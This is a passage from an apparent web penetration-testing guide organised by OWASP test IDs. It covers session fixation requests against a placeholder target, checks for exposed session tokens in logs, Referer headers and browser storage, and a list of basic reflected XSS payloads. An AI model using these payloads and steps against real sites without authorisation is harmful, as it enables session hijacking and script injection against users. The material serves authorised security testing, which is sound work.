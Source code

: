 ### 6.3 Test for Session Fixation (OTG-SESS-003)

#### Session Fixation Testing
```http
# Step 1: Get session ID before authentication
GET /login HTTP/1.1
Host: target.com
# Response: Set-Cookie: SESSIONID=attacker_controlled_id

# Step 2: Use pre-set session ID for login
POST /login HTTP/1.1  
Host: target.com
Cookie: SESSIONID=attacker_controlled_id
Content-Type: application/x-www-form-urlencoded

username=victim&password=victim_password

# Step 3: Check if session ID remains the same after authentication
```

### 6.4 Test for Exposed Session Variables (OTG-SESS-004)

#### Session Variable Exposure
```bash
# Check for session data in URLs
grep -r "sessionid\|session_token\|auth_token" access.logs

# Check for session data in referrer headers
curl -H "Referer: https://target.com/page?sessionid=123" https://external-site.com
```

#### Session Storage Testing
```javascript
// Check client-side session storage
console.log('sessionStorage:', sessionStorage);
console.log('localStorage:', localStorage);

// Look for sensitive data in storage
for (let i = 0; i < sessionStorage.length; i++) {
    let key = sessionStorage.key(i);
    console.log(key, sessionStorage.getItem(key));
}
```

## 7. Input Validation Testing

### 7.1 Test for Reflected Cross Site Scripting (OTG-INPVAL-001)

#### Basic XSS Payloads
```html
<!-- Basic XSS testing -->
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>

<!-- Event handler XSS -->
" onmouseover="alert('XSS')" "
' onclick='alert("XSS")' '

<!-- JavaScript protocol -->
javascript:alert('XSS')
```
